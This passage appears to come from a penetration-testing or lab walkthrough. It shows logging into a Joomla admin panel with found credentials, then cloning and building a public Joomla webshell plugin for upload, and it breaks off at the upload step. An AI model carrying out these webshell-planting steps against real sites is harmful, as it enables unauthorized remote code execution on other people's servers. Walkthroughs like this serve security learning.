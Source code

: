 ![evidence](./static/17-ssrf-mysql.png)

When I the Joomla site with the credentials `admin5:secret`, Then it works:

![evidence](./static/18-joomla-access.png)

When I google `Joomla RCE extension`, then I find  [Joomla webshell plugin](https://github.com/p0dalirius/Joomla-webshell-plugin), when I follow the instructions, and I use the `git clone` command:
```shell
$ git clone https://github.com/p0dalirius/Joomla-webshell-plugin.gi
```
And I use the `make` command:
```shell
$ cd Joomla-webshell-plugin/ && make
...SNIPPED...
[+] Saved to ./dist/joomla-webshell-plugin-1.1.0.zip
```
When I upload that `zip` file:

